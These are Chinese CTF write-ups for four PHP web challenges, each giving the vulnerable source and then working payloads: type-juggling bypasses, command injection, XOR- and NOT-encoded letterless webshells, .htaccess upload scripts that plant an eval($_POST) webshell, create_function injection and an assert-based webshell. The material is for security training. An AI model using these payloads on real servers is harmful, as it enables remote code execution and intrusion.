

## [WUSTCTF2020]朴实无华

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

1. `intval`处理不当

传入`1e10`,`intval($num)`截断处理成`1<2020`,而`intval($num+1)`处理成`1e10+1>2021`

2. `0e`,`md5(0e215962017)=0e291242476940776845150308577824`
3. 不能用`cat`那就用`tac`或者`strings`或者`ca\t`,注意参数中不能出现空格,因此用`\t`代替即`0x09`

payload`fl4g.php?num=1e10&md5=0e215962017&get_flag=tac%09fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`


## [SUCTF 2019]EasyWeb

```php
 <?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

利用异或构造出没有字母和数字的webshell,但是在一开始构造出错,无法正常运行(一开始构造成了`$<>/^{{{{`然后就报错了...)

1. 注意长度为`<=18`
2. 注意所有出现的字符`<=12`个(`count_chars($hhh, 3)`)


```php
<?php
$a=Array();
$j=0;
/*for($i=0;$i<128;++$i){
    if(!preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i))){
        $a[$j]=chr($i);
        $j++;
    }
}
var_dump($a);*/
$shell="_GET";
$check=0;
for($i=0;$i<strlen($shell);++$i){
    for($j=128;$j<256;++$j){
        for($k=128;$k<256;++$k){
            $s=chr($j)^chr($k);
            if($s===$shell[$i]&&$check==0){
                $check=1;
                echo $shell[$i].' '.urlencode(chr($j)).' '.urlencode(chr($k))."\n";
            }
        }
    }
    $check=0;
}
//${_GET}{xxx}();
//%24%3C%3E%2F^%7B%7B%7B%7B
?>
```

`?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=phpinfo`


文件拓展名中不能包含`ph`,因此可以尝试上传`.htaccess`进行任意文件解析

一开始上传的`.htaccess`为

```
GIF89a
AddType application/x-httpd-php .asdf
```

然后服务器就报错**Internal Server Error**了推测是文件头的原因,去查看`.htaccess`文件的注释发现在某一行前面加`#`或者`\0`即可

```python
import requests

url = "http://06a106ae-438b-4701-838c-8c2021a3eafb.node3.buuoj.cn/"
payload = url + "?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=get_the_flag"
file = {'file': ('.htaccess', '\0GIF89a\n' + 'AddType application/x-httpd-php .asdf')}
r = requests.post(url=payload, files=file)
print(r.text)

file = {'file': ('a.asdf', 'GIF89a\n' + r'<script language="pHp">@eval($_POST["a"])</script>')}
r = requests.post(url=payload, files=file)
print(r.text)

payload = url + r.text
print(requests.get(url=payload).text)
```

直接将源文件返回,发现语句并没有被解析,推测是php版本比较高,`<script>`不起效了

```
upload/tmp_d99081fe929b750e0557f85e6499103f/.htaccess
upload/tmp_d99081fe929b750e0557f85e6499103f/a.asdf
GIF89a
<script language="pHp">@eval($_POST["a"])</script>
```

在[stackoverflow](https://stackoverflow.com/questions/9045445/auto-prepend-php-file-using-htaccess-relative-to-htaccess-file)上看到一篇关于用`.htaccess`来自动加载php文件的问答(但好像没啥用...)

想了想,既然是使用include来进行自动加载,那么应该可以使用各种php协议

```php
\0GIF89a
AddType application/x-httpd-php .asdf
php_value auto_prepend_file "php://filter/read=convert.base64-decode/resource=a.asdf"
```

```python
import requests
import base64

url = "http://06a106ae-438b-4701-838c-8c2021a3eafb.node3.buuoj.cn/"
payload = url + "?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=get_the_flag"
file = {'file': ('.htaccess', '\0GIF89a\nAddType application/x-httpd-php .asdf\nphp_value auto_append_file "php://filter/convert.base64-decode/resource=a.asdf"')}
r = requests.post(url=payload, files=file)
print(r.text)

file = {'file': ('a.asdf', base64.b64encode(b'\x18\x81|\xf5\xa6\x0a<?php echo 123;?>'))}  # b'GIF89aYKPD9waHAgZWNobyAxMjM7Pz4='
r = requests.post(url=payload, files=file)
print(r.text)

payload = url + r.text
print(requests.get(url=payload).text)
```

成功执行

```
upload/tmp_d99081fe929b750e0557f85e6499103f/.htaccess
upload/tmp_d99081fe929b750e0557f85e6499103f/a.asdf
GIF89aYKPD9waHAgZWNobyAxMjM7Pz4=�|��
123
```

最终的文件上传payload

```python
import requests
import base64

url = "http://06a106ae-438b-4701-838c-8c2021a3eafb.node3.buuoj.cn/"
payload = url + "?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=get_the_flag"
file = {'file': ('.htaccess', '\0GIF89a\nAddType application/x-httpd-php .asdf\nphp_value auto_append_file "php://filter/convert.base64-decode/resource=a.asdf"')}
r = requests.post(url=payload, files=file)
print(r.text)

file = {'file': ('a.asdf', base64.b64encode(b'\x18\x81|\xf5\xa6\x0a<?php eval($_POST["a"]);?>'))}  # b'GIF89aYKPD9waHAgZWNobyAxMjM7Pz4='
r = requests.post(url=payload, files=file)
print(r.text)

payload = url + r.text
print(requests.get(url=payload).text)
```




## [BJDCTF2020]EzPHP

源代码得到`GFXEIM3YFZYGQ4A=`,base32解码得到`1nD3x.php`

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
}
?>
```

1. 绕过`if($_SERVER)`

对传入的参数进行urlencode

2. 绕过`if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute')`

`^`匹配行首,`$`匹配行尾,因此debu有多行即可,传入`aqua_is_cute%0a`

3. 绕过`if($_REQUEST)...if(preg_match('/[a-zA-Z]/i', $value))`

> `php.ini`的默认配置为`variables_order => EGPCS => EGPCS`
>
> 用`php -i |grep variables_order`来确认

`variables_order`决定了`$_REQUEST`取值的优先级

默认情况下POST的值会将GET的值覆盖

因此GET正常传参,同时POST传参`file=1&debu=1`即可绕过

4. 绕过`file_get_contents($file) !== 'debu_debu_aqua'`

传入`data://text/plain,debu_debu_aqua`

5. 绕过`sha1($shana) === sha1($passwd) && $shana != $passwd`

传入`shana[]=0&passwd[]=1`

6. `extract($_GET["flag"])`

`extract`会存在变量覆盖漏洞,将`$arg`和`$code`的值进行覆盖

7. 利用`$code('', $arg);`来对`flag.php`进行读取

这里利用到了`create_function`匿名函数注入漏洞

> This function internally performs an [eval()](https://www.php.net/manual/zh/function.eval.php) and as such has the same security issues as [eval()](https://www.php.net/manual/zh/function.eval.php). Additionally it has bad performance and memory usage characteristics.  

```php
<?php
$arg='return 1;';
$fun=create_function('',$arg);
var_dump($fun());#int(1)
?>
```

 `$fun`相当于

```
function fun(){return 1;}
```

假设将`$arg`替换为以下内容

```php
<?php
$arg='};var_dump(123);//';
$fun=create_function('',$arg);
var_dump($fun());
/*
int(123)
NULL
*/
?>
```

显然`$fun`相当于`function fun(){};`而后的`var_dump(123)`作为函数外的语句被继续执行,`//`对原本`$fun`后面的`}`进行注释,因此造成了函数的注入漏洞

---

将`$code`覆盖为`create_function`,将`$arg`覆盖为`};var_dump(require(php://filter/convert.base64-encode/resource=flag.php));//`

> 因为`include`被过滤,因此使用`require`代替

但是`php://filter/convert.base64-encode/resource=flag.php`被过滤,可以尝试将其进行取反

因此得到的原始payload为`?file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute
&shana[]=0&passwd[]=1&flag[code]=create_function&flag[arg]=};var_dump(require(—php://filter/convert.base64-encode/resource=flag.php));//`

同时POST传参`file=1&debu=1`

将payload中的关键参数进行urlencode,并将filter进行取反得到最终payload

`?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=0&%70%61%73%73%77%64[]=1&%66%6c%61%67[%63%6f%64%65]=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67[%61%72%67]=};%76%61%72%5f%64%75%6d%70(%72%65%71%75%69%72%65(~(%8f%97%8f%c5%d0%d0%99%96%93%8b%9a%8d%d0%9c%90%91%89%9a%8d%8b%d1%9d%9e%8c%9a%c9%cb%d2%9a%91%9c%90%9b%9a%d0%8d%9a%8c%90%8a%8d%9c%9a%c2%99%93%9e%98%d1%8f%97%8f)));//`

得到

```
PGh0bWw+DQo8aGVhZD4NCjxtZXRhIGNoYXJzZXQ9InV0Zi04Ij4NCjxtZXRhIGh0dHAtZXF1aXY9IlgtVUEtQ29tcGF0aWJsZSIgY29udGVudD0iSUU9ZWRnZSI+DQo8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEsIG1heGltdW0tc2NhbGU9MSwgdXNlci1zY2FsYWJsZT1ubyI+DQo8dGl0bGU+RmxhZyBJbiBIZXJlPC90aXRsZT4NCjxpbWcgc3JjPSJtZWFxdWEucG5nIiB3aWR0aD0iNjUwIiBoZWlnaHQ9IjY1MCIgYWx0PSJNZUFxdWHlpKnkuIvnrKzkuIAhIiAvPg0KPCEtLSBUaGUgcGljdHVyZSBpcyBvbmx5IGEgcGljdHVyZS4gLS0+DQo8YnIgLz4NCjwvaGVhZD4NCjwvaHRtbD4NCjw/cGhwDQoJZWNobyAiZmxhZ+WwseWcqOi/memHjO+8jOS9oOiDveaLv+WIsOWug+WQl++8nyI7DQoJJGZmZmZmZmZmMTExMTExMTRnZ2dnZyA9ICJCYWthLCBkbyB5b3UgdGhpbmsgaXQncyBzbyBlYXN5IHRvIGdldCBteSBmbGFnPyBJIGhpZCB0aGUgcmVhbCBmbGFnIGluIHJlYTFmbDRnLnBocCAyMzMzMyI7DQo=int(1)
```

base64解码得到`flag`在`rea1fl4g.php`,用同样的payload对其进行读取即可

```python
s = "php://filter/convert.base64-encode/resource=flag.php"
url = ""
for i in s:
    url += "%%%s" % (str(hex(ord(i) ^ 0xff))[2:].zfill(2))
print(url)

s = "php://filter/convert.base64-encode/resource=rea1fl4g.php"
url = ""
for i in s:
    url += "%%%s" % (str(hex(ord(i) ^ 0xff))[2:].zfill(2))
print(url)
```


## [极客大挑战 2019]RCE ME

> 类似于无参数RCE

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}
?>
```

`[~%8F%97%8F%96%91%99%90][!%FF]();`执行`phpinfo();`

读出disable_functions

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl
```

`assert`并没有被过滤,因此可以利用`assert`来构造webshell

```php
#assert(end(getallheaders()));
var_dump(urlencode(~"assert"));
var_dump(urlencode(~"end"));
var_dump(urlencode(~"getallheaders"));
#string(18) "%9E%8C%8C%9A%8D%8B"
#string(9) "%9A%91%9B"
#string(39) "%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C"
```

payload`?code=(~%9E%8C%8C%9A%8D%8B)((~%9A%91%9B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));`

扫描当前目录


扫描根目录


有`/flag`也有`/readflag`大概率是运行readflag来读,而flag无法直接读取

`readfile("/flag");`无回显

`readfile("/readflag");`有回显

说明`/flag`无法直接读取